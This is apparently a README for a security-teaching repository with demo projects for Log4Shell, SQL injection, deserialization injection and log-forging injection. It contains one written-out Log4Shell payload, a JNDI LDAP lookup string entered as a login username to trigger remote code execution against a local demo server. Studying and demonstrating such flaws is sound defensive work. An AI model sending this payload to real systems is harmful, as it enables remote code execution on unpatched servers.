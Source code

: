 # Top Security Flaws

This repository focuses on identifying and mitigating top security flaws in software projects. It currently includes subprojects on Log4Shell and SQL Injection, Deserialization Injection, Log forging injection.

## Subprojects

### Log4Shell
Log4Shell is a critical vulnerability in the Apache Log4j library. This subproject aims to:
- Create a demo project to test the vulnerability
- It has a LDAP simple server (based on ....) and a HTTP endpoint
- Using its login page, we can pass {jndi:ldap://127.0.0.1:9999/Evil} as the user, and then Log4J will do a remote execution of the Calendar

### Injections
A Quarkus project containing the code to :
- Test SQL Injection, Deserialization Injection and Log forging injection
- It contains a JavaFX screen as the client, and few servers in order to test these injection vulnerabilities

## Getting Started
To get started with the subprojects, navigate to their respective directories and follow the instructions provided in their README files.


## Contact
For any questions or suggestions, please open an issue or contact the maintainers.
